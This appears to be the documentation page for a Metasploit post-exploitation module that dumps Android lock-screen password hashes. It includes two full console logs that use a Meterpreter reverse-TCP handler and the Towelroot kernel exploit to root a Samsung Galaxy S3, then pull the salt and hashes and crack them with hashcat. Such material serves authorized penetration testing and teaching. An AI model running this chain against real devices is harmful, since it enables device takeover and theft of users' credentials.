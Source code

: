 ## Description

Post Module to dump the password hashes for Android System. Root is required.
To perform this operation, two things are needed.  First, a password.key file
is required as this contains the hash but no salt.  Next, a sqlite3 database
is needed (with supporting files) to pull the salt from.  Combined, this
creates the hash we need.  This can be cracked with Hashcat, mode 5800.
Samsung devices only have SHA1 hashes, while most other Android devices
also have an MD5 hash.  

A PIN is simply an all digit password.  

A Pattern lock is also an all digit password where each dot is represented by a number.

```
1   2   3

4   5   6

7   8   9
```

## Verification Steps

  1. Get root on an Android device
  2. Start msfconsole
  3. Do: ```use post/android/gather/hashdump```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should get a password hash to crack.

## Scenarios

### Passworded - Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Using `towelroot` to get root.  Device is set to use Password as the screen lock.  Password is `test`.

```
resource (android.128.rb)> use exploit/multi/handler
resource (android.128.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (android.128.rb)> set lport 9999
lport => 9999
resource (android.128.rb)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (android.128.rb)> setg verbose true
verbose => true
resource (android.128.rb)> run
[*] Started reverse TCP handler on 111.111.1.111:9999 
[*] Meterpreter session 1 opened (111.111.1.111:9999 -> 222.222.2.222:42547) at 2019-10-27 20:48:49 -0400
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used
WARNING: Local files may be incompatible with the Metasploit Framework

meterpreter > background
[*] Backgrounding session 1...
resource (android.128.rb)> use towelroot

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/android/local/futex_requeue  2014-05-03       excellent  Yes    Android 'Towelroot' Futex Requeue Kernel Exploit


[*] Using exploit/android/local/futex_requeue
resource (android.128.rb)> set session 1
session => 1
resource (android.128.rb)> run

[*] Started reverse TCP handler on 111.111.1.111:4444 
[+] Android version 4.4.2 appears to be vulnerable
[*] Found device: d2vzw
[*] Fingerprint: Verizon/d2vzw/d2vzw:4.4.2/KOT49H/I535VRUDNE1:user/release-keys
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/vnytm
[*] Loaded library /data/data/com.metasploit.stage/files/vnytm, deleting
[*] Waiting 300 seconds for payload
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:51741) at 2019-10-27 20:49:34 -0400

meterpreter > background
[*] Backgrounding session 2...
resource (android.128.rb)> use post/android/gather/hashdump
resource (android.128.rb)> set session 2
session => 2
resource (android.128.rb)> run

[!] SESSION may not be compatible with this module.
[*] Attempting to determine unsalted hash
[+] Saved password.key
[*] Attempting to determine salt
[*] OS Version: 4.4.2
[*] Attempting to load >=4.3.0 Android settings file
[+] Saved locksettings.db with length 4096
[+] Saved locksettings.db-wal with length 140112
[+] Saved locksettings.db-shm with length 32768
[+] Password Salt: 4aafc54dc502e88b
[+] SHA1: EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b
[+] Crack with: hashcat -m 5800 EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b
[*] Post module execution completed
msf post(android/gather/hashdump) > creds
Credentials
===========

host  origin        service  public  private                                                    realm  private_type        JtR Format
----  ------        -------  ------  -------                                                    -----  ------------        ----------
      222.222.2.222                  EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b         Nonreplayable hash  android-sha1


```

We can now crack the password with hashcat as per the last line.

```
# hashcat -m 5800 EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b --show
ea8457de97836c955082ae77dbe2cd86a4e8bc0e:4aafc54dc502e88b:test
```

### PIN - Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Using `towelroot` to get root.  Device is set to use PIN as the screen lock.  Password is `1234`.

```
resource (android.128.rb)> use exploit/multi/handler
resource (android.128.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (android.128.rb)> set lport 9999
lport => 9999
resource (android.128.rb)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (android.128.rb)> setg verbose true
verbose => true
resource (android.128.rb)> run
[*] Started reverse TCP handler on 111.111.1.111:9999 
[*] Meterpreter session 1 opened (111.111.1.111:9999 -> 222.222.2.222:39987) at 2019-10-27 21:04:57 -0400
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used
WARNING: Local files may be incompatible with the Metasploit Framework

meterpreter > background
[*] Backgrounding session 1...
resource (android.128.rb)> use towelroot

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/android/local/futex_requeue  2014-05-03       excellent  Yes    Android 'Towelroot' Futex Requeue Kernel Exploit


[*] Using exploit/android/local/futex_requeue
resource (android.128.rb)> set session 1
session => 1
resource (android.128.rb)> run

[*] Started reverse TCP handler on 111.111.1.111:4444 
[+] Android version 4.4.2 appears to be vulnerable
[*] Found device: d2vzw
[*] Fingerprint: Verizon/d2vzw/d2vzw:4.4.2/KOT49H/I535VRUDNE1:user/release-keys
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/rlotf
[*] Loaded library /data/data/com.metasploit.stage/files/rlotf, deleting
[*] Waiting 300 seconds for payload
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:57268) at 2019-10-27 21:05:25 -0400

meterpreter > background
[*] Backgrounding session 2...
resource (android.128.rb)> use post/android/gather/hashdump
resource (android.128.rb)> set session 2
session => 2
resource (android.128.rb)> run

[!] SESSION may not be compatible with this module.
[*] Attempting to determine unsalted hash
[+] Saved password.key
[*] Attempting to determine salt
[*] OS Version: 4.4.2
[*] Attempting to load >=4.3.0 Android settings file
[+] Saved locksettings.db with length 4096
[+] Saved locksettings.db-wal with length 206032
[+] Saved locksettings.db-shm with length 32768
[+] Password Salt: 4aafc54dc502e88b
[+] SHA1: 9E201EFFCC29C8F54E1ECEC307CB1DA18B6B6E6B:4aafc54dc502e88b
[+] Crack with: hashcat -m 5800 9E201EFFCC29C8F54E1ECEC307CB1DA18B6B6E6B:4aafc54dc502e88b
[*] Post module execution completed

```
We can now crack the password with hashcat as per the last line.

```
# hashcat -m 5800 9E201EFFCC29C8F54E1ECEC307CB1DA18B6B6E6B:4aafc54dc502e88b -a 3 ?d?d?d?d
hashcat (v5.1.0) starting...

...

Approaching final keyspace - workload adjusted.  

9e201effcc29c8f54e1ecec307cb1da18b6b6e6b:4aafc54dc502e88b:1234
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Samsung Android Password/PIN
Hash.Target......: 9e201effcc29c8f54e1ecec307cb1da18b6b6e6b:4aafc54dc502e88b
Time.Started.....: Sun Oct 27 21:06:04 2019 (0 secs)
Time.Estimated...: Sun Oct 27 21:06:04 2019 (0 secs)
Guess.Mask.......: ?d?d?d?d [4]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    41481 H/s (0.31ms) @ Accel:32 Loops:15 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1000/10000 (10.00%)
Rejected.........: 0/1000 (0.00%)
Restore.Point....: 0/1000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1023
Candidates.#1....: 1234 -> 1764
Hardware.Mon.#1..: Temp: 54c Util:100% Core: 705MHz Mem:1400MHz Bus:16

Started: Sun Oct 27 21:06:00 2019
Stopped: Sun Oct 27 21:06:05 2019
```
